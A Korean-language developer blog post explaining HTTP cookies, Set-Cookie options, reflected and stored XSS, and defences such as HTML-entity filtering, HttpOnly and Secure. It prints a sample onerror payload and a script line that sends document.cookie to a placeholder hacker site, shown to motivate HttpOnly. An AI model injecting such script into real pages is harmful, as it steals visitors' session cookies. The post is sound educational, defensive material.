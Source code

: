 ```yaml
---
date: '2023-09-24'
title: '쿠키 도둑 잡아라!'
category: 'computer science'
summary: '내가 만든 쿠키, 너를 위해 구운 거 아닌데..'
thumbnail: './image/cookie-thumbnail.webp'
tags: ['# Web', '# HTTP', '# cookie', '# XSS']
---
```


여러분은 쿠키에 대해서 들어보신 적이 있나요? 혹시 이렇게 생긴 음식인가요? 🍪
만약 그렇다면, 오늘은 다른 쿠키에 대해서 알아보도록 하겠습니다. 여러분도 웹사이트를 이용하다가 쿠키를 이용해보신 경험이 있을 겁니다. 아래 사진을 볼까요?

<figure>
  <img src="./image/stackoverflow-cookie.webp" alt="stackoverflow-cookie"/>
  <figcaption figcaption>스택오버플로우의 쿠키 수집 허용 팝업</figcaption>
</figure>

[스택오버플로우](https://stackoverflow.com/)에 접속하면 볼 수 있는 팝업입니다. '모든 쿠키 허용' 버튼을 클릭하면 우리 기기의 쿠키를 저장하고, 자사 쿠키 정책에 따라 정보를 공개할 수 있다고 하네요. 그렇다면 쿠키란, 대체 무엇일까요?

## TL;DR

> 1. 쿠키는 HTTP 헤더를 통해 서버와 클라이언트 간에 주고 받는 데이터입니다.
> 2. XSS 공격을 통해 쿠키를 탈취당할 수 있습니다.
> 3. 쿠키 탈취를 방지하기 위해 HttpOnly, Secure 등의 옵션을 이용할 수 있습니다.
> 4. 민감한 정보를 포함하지 않는다면 쿠키 사용을 고려할 수 있습니다.

## HTTP

쿠키를 알기 위해선 먼저 HTTP에 대해서 알아야 합니다. HTTP는 **HyperText Transper Protocol**의 약어로, 간단하게 말해서 HTML 문서와 같은 리소스들을 가져올 수 있도록 해주는 일종의 규약입니다. 웹에서 이루어지는 모든 데이터 교환의 기초이고, 클라이언트-서버 프로토콜이기도 합니다. 결국 우리는 HTTP를 통해 필요한 정보를 서버에 요청하고, 마찬가지로 HTTP를 통해 요청에 대한 응답을 받는 것이죠.

HTTP는 상태가 없습니다. 이 말은, 서버가 HTTP 요청을 받았을 때 어떤 브라우저에서 보낸 요청인지 알 수 없고, 각 요청은 독립적이라는 것을 뜻합니다. 그렇다면 로그인, 사용자 지정 테마, 장바구니 등의 정보를 기록하기 위해선 어떻게 해야 할까요? 이를 해결하기 위해 등장한 것이 바로 쿠키입니다.

## 쿠키

자, 이제 쿠키에 대해서 자세히 알아보도록 하겠습니다.

쿠키는 쉽게 말해서 프론트엔드에서 저장하고 관리하는 데이터입니다. 서버에서 `Set-Cookie`를 Response Header에 담아 내려주면 클라이언트는 이를 자동으로 저장합니다. 경우에 따라서는 쿠키 데이터를 자체적으로 조작할 수도 있고, 수명을 정할 수도 있습니다.

### 쿠키의 작동 방식

<figure>
  <img src="./image/cookie-flow.webp" alt="쿠키의 작동 방식"/>
  <figcaption figcaption>쿠키의 작동 방식</figcaption>
</figure>

쿠키는 위와 같은 흐름으로 작동합니다. 브라우저가 서버에 요청을 보내면 서버는 HTTP 헤더에 쿠키를 담아서 응답합니다. 브라우저는 이를 자동으로 저장하고, 다음 요청을 보낼 때 HTTP 헤더에 저장해둔 쿠키를 담아서 전달합니다. 서버는 쿠키를 읽고 유저 정보를 확인 후 적절한 응답을 합니다. 만약 서버에서 쿠키에 업데이트가 발생한다면, 응답할 때 업데이트된 쿠키를 다시 한번 넘겨줍니다.

### Set-Cookie

쿠키는 기본적으로 서버에서 생성할 수 있고, 앞서 말씀드린 것과 같이 **Set-Cookie**라는 옵션을 통해 쿠키 정보를 설정할 수 있습니다. Set-Cookie는 Key=Value 형태로 되어 있고, 브라우저는 이 값을 파싱한 뒤 알아서 쿠키에 데이터를 저장합니다. 쿠키에는 다음과 같은 옵션을 설정할 수 있습니다.

- **Expires**: 쿠키 만료 날짜
- **Secure**: HTTPS에서만 쿠키를 전송
- **HttpOnly**: Javascript 코드를 통한 쿠키 접근을 방지 (이를 통해 XSS 공격에 대응 가능)
- **Max-Age**: 쿠키 수명 설정 (이 때, Expires는 무시)
- **Domain**: 도메인이 일치하는 요청만 쿠키 전송
- **Path**: 경로가 일치하는 요청만 쿠키 전송

<br />

참고로 하나의 Set-Cookie에는 하나의 쿠키만을 담을 수 있기 때문에 응답 헤더는 다음과 같은 형태가 됩니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: choco_cookie=choco; Max-Age=0; Path=<경로>
Set-Cookie: white_cookie=white
```

반면, 클라이언트는 쿠키를 전달할 때 세미 콜론(;)으로 여러 개의 쿠키를 구분하여 나열할 수 있습니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: choco_cookie=choco; white_cookie=white;
```

### 쿠키의 보안성

쿠키는 브라우저에 저장되기 때문에 다음과 같은 문제를 수반합니다.

1. 쉽게 잃어버릴 수 있다.
2. 쉽게 변경될 수 있다.
3. 쉽게 도난당할 수 있다.

브라우저의 개발자 도구를 이용하면 쿠키를 쉽게 확인할 수 있고, 삭제할 수 있습니다. 또 누군가가 내가 전송한 HTTP 요청을 가로챈다면, 요청 헤더에 포함된 민감한 쿠키 정보를 열람할 수 있을 것입니다. 심지어 쿠키는 브라우저에 저장되기 때문에 자바스크립트 코드로 접근할 수도 있습니다. 이는 곧 심각한 문제로 이어지게 될 것입니다.

## XSS

이런 쿠키의 취약점을 활용한 공격 방법에 대해 알아보겠습니다.

XSS는 **Cross Site Scripting**의 약자로, 줄이면 CSS가 되는 것이 맞겠으나 CSS는 이미 Cascading Style Sheets의 어로 사용되고 있기 때문에 **XSS**라고 합니다.
XSS는 권한이 없는 사용자가 메일이나, Input, 게시판 등에 자바스크립트 등의 스크립트 코드를 삽입하여 개발자가 고려하지 않은 기능을 동작하도록 하는 공격 방법입니다.

XSS는 크게 Reflected-XSS, Stored-XSS 두 종류로 나뉩니다.

### Reflected XSS

Reflected XSS는 스크립트 코드를 입력하자마자 결과가 발생는 공격법을 말합니다. 웹 서버에 스크립트를 남기지 않는다는 것이 특징입니다. 단적인 예로 다음과 같은 상황을 가정할 수 있습니다.

`input` 창을 통해 이름을 입력 받고, 버튼을 클릭하면 이를 화면에 띄워주는 사이트가 있습니다.

<figure>
  <img src="./image/xss-input-test.webp" alt="input 예시"/>
</figure>

이름을 입력하고 제출 버튼을 클릭하면 정상적으로 작동하는 것을 확인할 수 있습니다. 그럼, 다음과 같은 스크립트 코드를 입력하면 어떻게 될까요?

`<img src="#" onerror="alert('버그 발생! 🐛')" />`

<figure>
  <img src="./image/xss-hijacking.webp" alt="스크립트 코드를 통한 XSS 공격"/>
</figure>

이렇게 `alert` 창이 실행됩니다! 지금의 경우에는 스크립트 코드에 악의적인 의도가 없어 보이지만, 공격자는 어떤 의도를 품고 있을지 모릅니다. 쿠키는 브라우저에 저장되어 있기 때문에 `document.cookie`와 같은 자바스크립트 코드로 접근할 수 있습니다. 만약 `alert` 함수 대신 `document.cookie`가 입력되어 있었다면 어떻게 될까요? 사용자의 정보가 노출되어 큰 문제가 발생할 수 있습니다. 상상만 해도 끔찍하네요😥

### Stored XSS

Stored XSS는 가장 일반적인 XSS 공격 유형으로, 스크립트 코드를 입력하고 서버에 저장되도록 합니다. 그래서 추후 사용자가 게시물을 열람할 때 공격자가 입력해놓은 스크립트 코드가 실행되어 사용자의 민감 정보가 유출되거나 기획된 공격에 노출될 수 있습니다. Reflected XSS와는 달리 서버에 스크립트를 남기기 때문에 다수의 사용자들에게 지속적으로 공격을 가할 수 있습니다.

Stored XSS는 방명록이나 게시판과 같이 기록을 남기는 공간에서 공격할 수 있습니다.

### XSS 대응 방안

1. **입력 값 제한**

   기본적으로 스크립트 코드를 삽입하지 못하도록 해야 합니다. HTML5에서는 이런 문제를 해결하기 위해 innerHTML을 통해 주입한 스크립트는 실행되지 않습니다. 하지만 `onerror` 이벤트 속성을 통해 주입한 스크립트는 여전히 작동합니다.

2. **입력 값 치환**

   `<`, `>` 등의 태그 문자를 [HTML Entity](http://www.tcpschool.com/html/html_text_entities)로 필터링 할 수 있습니다. HTML Entity는 대부분의 인터프리터에서 특수한 의미를 가지지 않기 때문에 태그로 인식되지 않습니다.

3. **httpOnly 옵션 사용**

   공격자는 다음과 같은 코드를 공개 게시판에 작성하여 사용자의 쿠키를 가로채려 시도합니다.

   ```jsx
   <script> location.href = '해커사이트주소?cookie=' + document.cookie </script>
   ```

   해당 게시물을 열람한 사용자들은 해커 사이트로 이동하여 쿠키 정보를 노출하게 됩니다. `httpOnly` 옵션을 활용하면 브라우저에서 쿠키에 접근하는 것을 방지할 수 있습니다. 브라우저에서는 일반적으로 쿠키에 접근할 일이 크게 없기 때문에 `httpOnly` 옵션은 기본적으로 적용하는 것이 좋습니다. 참고로 `httpOnly` 옵션은 브라우저에서 설정할 수 없고, 항상 서버에서만 설정할 수 있는 옵션입니다.

   ```java
   Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly
   ```

4. **Secure 옵션 사용**

   이제 `httpOnly` 옵션을 통해 브라우저에서 쿠키에 접근하는 것은 방지할 수 있습니다. 하지만 쿠키는 HTTP 헤더를 통해 전송되고, 와이어 샤크 등과 같은 프로그램으로 네트워크 감청을 할 수 있다는 것은 널리 알려진 사실입니다. 이러한 통신 상 정보 유출을 방지하기 위해 HTTPS 프로토콜을 사용하여 데이터를 암호화할 수 있습니다. 그리고 `Secure` 옵션은 HTTPS 상에서 암호화된 요청일 경우에만 쿠키를 전송하도록 합니다.

## 맺음

최근에는 쿠키의 취약점을 해결하기 위해 쿠키를 서버에서 관리하는 **세션 방식**이나, 암호화된 토큰을 이용하는 **JWT 방식**을 사용하기도 합니다. 그렇다고 해서 쿠키가 전혀 사용되지 않는 것은 아닙니다. 사용자 인증과 같은 민감 정보는 세션, 혹은 JWT 토큰으로 관리하고, 개인 설정과 같은 정보는 쿠키로 이용하는 것이 도움이 될 수 있습니다. 이처럼, 상황에 맞게 적절한 방식을 고민하고 사용하는 것이 중요하겠습니다. 이 글이 쿠키 사용을 고려하고 있는 분들에게 도움이 되면 좋겠습니다🙏
